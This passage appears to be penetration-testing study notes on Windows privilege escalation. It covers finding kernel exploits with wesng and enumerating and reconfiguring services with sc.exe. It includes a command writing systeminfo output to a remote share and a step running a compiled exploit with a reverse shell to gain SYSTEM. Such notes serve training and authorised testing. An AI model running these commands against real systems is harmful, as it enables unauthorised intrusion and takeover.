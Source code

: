### Privilege Escalation
1. Extract the output of the systeminfo command:
```cmd
> systeminfo > systeminfo.txt
OR
> systeminfo > \\192.168.0.1\leet\systeminfo.txt
```
2. Run wesng to find potential exploits (you must be in the same directory as your definitions):
```bash
# python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | less
```
3. Cross-reference results with [compiled exploits](https://github.com/SecWiki/windows-kernel-exploits)
4. Download the compiled exploit onto the Windows machine
5. Start a listener on Kali and run the exploit, providing it with the reverse shell executable, which should run with SYSTEM privileges:
```cmd
> .\x64.exe C:\PrivEsc\reverse.exe
```

## Service Exploits
Services are simply programs that run in the background, accepting input or performing regular tasks. 
If services run with SYSTEM privileges and are misconfigured, exploiting them may lead to command execution with SYSTEM privileges as well.

Query the configuration of a service (service command (sc.exe) query dependencies (qc)):
```cmd
> sc.exe qc <name>
```

Query the current status of a service:
```cmd
> sc.exe query <name>
```

Modify a configuration option of a service:
```cmd
> sc.exe config <name> <option>= <value>
```

Start/stop a service:
```cmd
> net start/stop <name>
```

These are the main AV for services:
1. Insecure Service Properties
2. Unquoted Service Path
3. Weak Registry Permissions
4. Insecure Service Executables
5. DLL Hijacking

### Insecure Service Permissions
Each service has an ACL which defines certain service-specific permissions.
Some permissions are innocuous (e.g. SERVICE_QUERY_CONFIG, SERVICE_QUERY_STATUS).
Some may be useful (e.g. **SERVICE_STOP, SERVICE_START**).
Some dangerous (e.g. **SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS**).
